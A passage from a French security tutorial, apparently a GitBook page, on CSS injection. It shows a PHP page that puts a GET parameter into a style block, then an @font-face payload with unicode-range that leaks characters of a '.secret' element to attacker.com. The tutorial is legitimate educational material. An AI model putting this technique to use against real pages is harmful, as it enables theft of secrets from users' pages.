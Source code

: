 <figure><img src="../../../.gitbook/assets/image (7) (2).png" alt=""><figcaption></figcaption></figure>

### Récupération en fonction de la classe

De la même façon, il est possible de cibler un attribut `class` au lieu d'un attribut `id` :&#x20;

{% code overflow="wrap" lineNumbers="true" %}
```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <style>
     h1 {
        color: <?php echo htmlspecialchars($_GET['color'], ENT_QUOTES | ENT_SUBSTITUTE | ENT_HTML5, "UTF-8") ?>;
      }
  </style>
  </head>
  <body>
    <h1>Injection CSS - récupération de la valeur d'un élément HTML par sa class via @font-face et descripteur unicode</h1>
    <span class="secret">s3cr3t</span>
  </body>
</html>
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ici, c'est le caractère `.` qui va permettre de sélectionner l'attribut `class` désiré :

{% code overflow="wrap" lineNumbers="true" %}
```html
<style>
  @font-face {
    // Nom de la police d'écriture (arbitraire)
    font-family: attack;
    
    // URL du serveur de l'attaquant
    // Permet de savoir quel caractère a été récupéré
    src: url(https://attacker.com/?leak=a); 
    
    // Test de la présence du caractère spécifié en unicode
    unicode-range: U+0061;
  }
  
  // Class ciblée par l'attaque
  .secret {
    // Applique la police d'écriture
    font-family: attack;
  }
</style>
```